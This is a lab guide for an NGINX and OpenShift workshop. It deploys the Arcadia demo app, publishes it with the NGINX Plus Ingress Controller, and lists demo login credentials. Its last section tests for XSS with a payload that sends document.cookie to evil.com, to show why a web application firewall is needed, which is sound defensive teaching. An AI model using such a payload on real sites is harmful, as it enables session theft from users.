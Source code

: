 == Access Arcadia App without NGINX App Protect to establish a baseline

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

[source,sh,role=execute]
----
oc delete virtualserver arcadia
oc delete -f arcadia.yml 
----


== Deploy the Arcadia Application into Kubernetes

[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our OpenShift cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,sh,role=execute]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,sh,role=execute]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,sh,role=execute]
----
oc get svc
----

This will show us the services running in our Kubernetes cluster,
including those related to the Arcadia application.

[source,texinfo,subs="attributes"]
----
$ oc get svc
NAME         TYPE           CLUSTER-IP      EXTERNAL-IP                            PORT(S)        AGE
app2         NodePort       172.30.134.98   <none>                                 80:30362/TCP   3m13s
app3         NodePort       172.30.45.51    <none>                                 80:31662/TCP   3m13s
backend      NodePort       172.30.83.103   <none>                                 80:31584/TCP   3m13s
kubernetes   ClusterIP      172.30.0.1      <none>                                 443/TCP        3h41m
main         NodePort       172.30.25.227   <none>                                 80:30511/TCP   3m13s
openshift    ExternalName   <none>          kubernetes.default.svc.cluster.local   <none>         3h31m
----

== Export the NGINX Ingress Controller services

Interacting with the NGINX Ingress Controller is  easier if we expoort the service External IPs into system variables. 
This allows for templating to take place when we expose our applications.

Paste the below into the terminal and press enter:

[source,sh,role=execute]
----
export nginx_ingress=$(oc get svc my-nginx-ingress-controller -n nginx-ingress --no-headers | tr -s " " | cut -d" " -f4)' >> ~/.bashrc && source ~/.bashrc
----

You can check the domain name with the `echo` command

[source,sh,role=execute]
----
 echo "$nginx_ingress/"
----



== Publish Arcadia app with NGINX Plus Ingress Controller

Now that we have our Arcadia application deployed in our OpenShift
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

[source,sh,role=execute]
----
cat << EOF | envsubst > arcadia-virtualserver.yml
apiVersion: k8s.nginx.org/v1
kind: VirtualServer
metadata:
  name: arcadia
spec:
  host: $nginx_ingress
  upstreams:
  - name: main
    service: main
    port: 80
  - name: app2
    service: app2
    port: 80
  - name: app3
    service: app3
    port: 80
  routes:
  - path: /
    action:
      pass: main
  - path: /api
    action:
      proxy:
        upstream: app2
  - path: /app3
    action:
      proxy:
        upstream: app3
EOF
----

Use the `cat` command to view the contents of the file and verify the `host` line matches your nginx_ingress external domain name

[source,sh,role=execute]
----
cat arcadia-virtualserver.yml
----

Next, apply the yaml config

[source,sh,role=execute]
----
oc apply -f arcadia-virtualserver.yml
----


We can know go to the URL and  access our Arcadia application by opening it in a web browser.

[source,sh,role=execute]
----
 echo "http://$nginx_ingress/"
----


You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with the Arcadia
application that consists of four microservices:

image:image10.png[image]

Congratulations!

You have now successfully deployed the application in the K8s cluster and
published it externally using the NGINX Plus Ingress controller.

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch the Firefox browser and append
`?a=<script>` to the end of the application URL. If the request is
allowed, then our application is vulnerable to XSS attacks.

image:image11.png[image]

We can further test this by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, which will attempt to steal our document cookie.
If this request is also allowed, then a bad actor could potentially
steal sensitive information from our application user.

image:image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.
